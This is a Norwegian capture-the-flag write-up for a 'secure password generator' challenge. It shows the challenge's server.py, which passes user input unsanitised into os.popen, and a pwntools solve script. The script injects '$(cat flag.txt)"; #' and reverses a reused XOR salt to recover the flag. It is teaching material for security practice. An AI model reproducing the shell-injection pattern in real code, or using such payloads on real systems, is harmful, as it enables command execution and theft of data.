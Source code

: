 # Sikker passord generator

> Sikker passord generator
>
> Viser seg at det var en liten feil i første versjon av min passord generator, ved å legge inn litt mer komplisert generering tror jeg den nå er trygg. Bare å benytte deg av den nå for å lage passord!
>
> ctf.uiactf.no:5003
>
> File: `server.py`

![](00.png)

---

Dette er en videreutviklet versjon av `Passord generator`, se writeup for mer detaljer.

`server.py`
```python
#!/usr/bin/python3
import random
import os

super_salt = str(random.getrandbits(50) + 1)

print("Velkommen til min superpassordmaskin9000v2!\n\
Gi meg en string som skal være med på å lage et nytt passord så skal jeg gi deg et skikkelig godt passord tilbake.\n\
(Begrenset til kun 2 ganger hver sesjon pga. sikkerhet..)")

for encryption_rounds in range(2):

    print(f"String:")
    input_from_client = input('> ')
    sha256_output = os.popen(f'echo "{input_from_client}" | sha256sum').read()
    
    i = 0
    while len(super_salt) < len(sha256_output):
        super_salt += super_salt[i]
        i += 1

    new = [(hex(ord(a) ^ ord(b)))[2:] for a,b in zip(super_salt, sha256_output)]


    print(f"Her er ditt gode password:\n> {''.join(new)}")
```

Vi har fortsatt samme `command line injection`-sårbarheten. Forskjellen denne gangen er at output'en blir `XOR`'et med et random salt.

Sårbarheten her er at vi får lov å generere to passord i slengen og at samme saltet benyttes begge gangene.

Ved å sende inn en kjent string, f.eks. X antall mellomrom, kan vi ved å `XOR`e outputten vi får tilbake med den kjente strengen vår, finne det opprinnelige saltet.

Når vi da sender inn en payload for å lese ut flagget vil vi få ut flagget `XOR`et med samme salt som sist, som vi nå besitter.

Da `XOR`'er vi flaggdataen med saltet og vipps så har vi flagget.

Vi må fortsatt huske å omgå ` | sha256sum` i kommandolinjen ved å benytte `"; #` i slutten av payloaden vår. Det gjelder også den opprinnelige payloaded med kjent input.

`solve.py`
```python
from binascii import unhexlify
from pwn import *

io = connect("ctf.uiactf.no", 5003)
io.recvuntil(b'> ').decode()

# Send 50 mellomrom (0x20) og avslutt med '"; #' for å bypasse sha256sum
io.sendline(b'\x20' * 50 + b'"; #')

# Motta nøkkel XOR'ed med 0x20
io.recvline().decode()
io.recvuntil(b'> ').decode()
key_xor_space = io.recvline(False).decode()
#print(key_xor_space)
key_xor_space = unhexlify(key_xor_space)
#print(key_xor_space)

io.recvuntil(b'> ').decode()

# Send payload for å lese ut flagg
io.sendline(b'$(cat flag.txt)"; #')

# Motta flagg XOR'ed med nøkkel
io.recvline().decode()
io.recvuntil(b'> ').decode()
flag_xor_key = io.recvline(False).decode()
#print(flag_xor_key)
flag_xor_key = unhexlify(flag_xor_key)
#print(flag_xor_key)

# XOR nøkkel med 0x20 for å finne ekte nøkkel
key = [i ^ 0x20 for i in key_xor_space]

# XOR flagg med ekte nøkkel for å finne flagg
flag = [flag_xor_key[i] ^ key[i] for i in range(len(flag_xor_key))]

# print(key_xor_space)
# print(key)
# print(flag_xor_key)
# print(flag)
print(''.join(map(chr, flag)))
```

La oss teste:

```bash
$ python solve.py 
[+] Opening connection to ctf.uiactf.no on port 5003: Done
UIACTF{two_times_are_one_too_many}
```


## Flagg
`UIACTF{two_times_are_one_too_many}
